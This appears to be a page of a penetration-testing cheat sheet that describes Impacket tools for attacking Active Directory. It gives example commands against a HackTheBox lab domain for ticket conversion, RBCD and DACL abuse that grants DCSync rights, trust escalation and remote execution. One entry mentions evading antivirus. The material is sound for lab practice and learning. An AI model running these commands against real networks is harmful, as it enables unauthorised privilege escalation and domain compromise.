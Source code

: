 **impacket-describeTicket / impacket-ticketConverter**  
_What_: Inspect & convert ccache ↔ kirbi.  
_When_: Move tickets between tools/systems.  
_Example_: `impacket-describeTicket ticket.ccache`

**impacket-getPac / impacket-goldenPac**  
_What_: PAC quirks abuse (older domains).  
_When_: Niche; test PAC validation issues.  
_Example_: `impacket-goldenPac ...`

**impacket-raiseChild**  
_What_: Child-to-parent domain trust abuse (SIDHistory).  
_When_: Multi-domain forests; escalate to parent.  
_Example_: `impacket-raiseChild -debug ...`

**impacket-findDelegation**  
_What_: List constrained/unconstrained/RBCD delegations.  
_When_: Plan S4U and RBCD paths.  
_Example_: `impacket-findDelegation -dc-ip 10.10.10.248 intelligence.htb/USER:P@ss`

**impacket-rbcd**  
_What_: Configure/abuse Resource-Based Constrained Delegation.  
_When_: After LDAP write rights to target computer.  
_Example_: `impacket-rbcd -action write -delegate-from ATTACKER$ -delegate-to VICTIM$ intelligence.htb/USER:P@ss`

**impacket-owneredit / impacket-dacledit**  
_What_: Take ownership / edit ACLs on AD objects.  
_When_: Prepare RBCD, grant DCSync, add SPNs, etc.  
_Example_: `impacket-dacledit -action write -rights DCSync -principal USER -target 'DC=...' intelligence.htb/USER:P@ss`

**impacket-describeTicket**  
_What_: Show ticket fields (SPN, flags, enc types).  
_When_: Debug why a ticket fails for a service.  
_Example_: `impacket-describeTicket admin@cifs_dc...ccache`

---

## 🎯 Remote Execution & Lateral Movement

**impacket-wmiexec / impacket-psexec / impacket-smbexec**  
_What_: Remote command execution via WMI / SMB service install / SMB named pipes.  
_When_: You have local admin on a host (or Admin+Kerberos ticket).  
_Examples_:  
`impacket-wmiexec -k -no-pass administrator@dc.intelligence.htb -dc-ip 10.10.10.248`  
`impacket-psexec intelligence.htb/ADMIN:P@ss@10.10.10.248`

**impacket-dcomexec**  
_What_: DCOM-based exec (MMC20, ShellWindows).  
_When_: AV blocks psexec/wmi but DCOM open.  
_Example_: `impacket-dcomexec intelligence.htb/ADMIN:P@ss@10.10.10.248`

**impacket-atexec**  
_What_: Schedule AT/Task to run command.  
_When_: Low-noise exec path.  
_Example_: `impacket-atexec intelligence.htb/ADMIN:P@ss@10.10.10.248 'whoami > C:\\temp\\a.txt'`

